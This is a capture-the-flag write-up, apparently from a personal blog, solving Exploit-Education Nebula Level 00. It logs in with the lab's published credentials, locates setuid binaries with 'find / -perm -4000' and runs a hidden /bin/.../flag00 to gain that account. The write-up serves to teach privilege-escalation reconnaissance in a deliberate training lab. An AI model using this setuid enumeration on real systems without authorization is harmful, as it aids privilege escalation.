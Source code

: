 ```yaml
---
layout: single_c
title:  "Exploit-Education Nebula Level 00"
date:   2019-08-13 10:43:16 +0530
categories: Exploit-Education
tags: Nebula
classes: wide
---
```

### [Exploit Education Level 0](https://exploit.education/nebula/level-00   /)

## Challenge
This level requires you to find a Set User ID program that will run as the `flag00` account.You could also find this by carefully looking in top level directories in / for suspicious looking directories.

Alternatively, look at the find man page.  

To access this level, log in as `level00` with the password of `level00`.

## Solution
We have to use find to find a file with setuser id bit set
    
    
``` bash
level00@nebula:~$ find / -perm -4000 2>/dev/null | less 
```
        
lets see what the parameters indicate
        
``` bash
/               it asks find to look for files in root directory
-perm -4000     its is used to display all files with the setuserid set
2>/dev/null     gets rid of all error messages
```

``` bash
level00@nebula:~$ find / -perm -4000 2>/dev/null | less
/bin/.../flag00
/bin/fusermount
/bin/mount
/bin/pis
/bin/ping6
/bin/su
/bin/umount
/sbin/mount.ecryptfs_private
/usr/bin/at
/usr/bin/chfn
/usr/bin/chsh
/usr/bin/gpasswd
```

we can see a file named `flag00`. lets investigate 

``` bash
level00@nebula:/$ cd /bin/.../
level00@nebula:/bin/...$ ls -la
total 8
drwxr-xr-x 2 root   root      29 2011-11-20 21:22 .
drwxr-xr-x 3 root   root    2728 2012-08-18 02:50 ..
-rwsr-x--- 1 flag00 level00 7358 2011-11-20 21:22 flag00
```

we can see that the `setuserid` bit is set for `flag00`. lets run it
``` bash
level00@nebula:/bin/...$ ./flag00
Congrats, now run getflag to get your flag!
flag00@nebula:/bin/...$ getflag
You have successfully executed getflag on a target account
```

### Solved!